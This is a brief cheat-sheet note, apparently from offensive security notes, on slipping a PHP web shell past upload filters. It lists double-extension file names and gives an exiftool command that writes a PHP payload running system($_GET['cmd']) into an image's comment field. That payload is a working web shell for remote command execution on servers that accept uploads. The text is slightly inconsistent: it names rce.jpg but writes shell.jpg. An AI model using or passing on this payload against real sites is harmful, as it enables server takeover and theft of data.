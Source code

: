 Shell bypass some case for filter
1. shell.gif.php
2. shell.php
We need embeded php code in images as:
Create malicous image file in rce.jpg by exiftool
`exiftool -Comment='<h1>PHP Shell </h1><?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg`
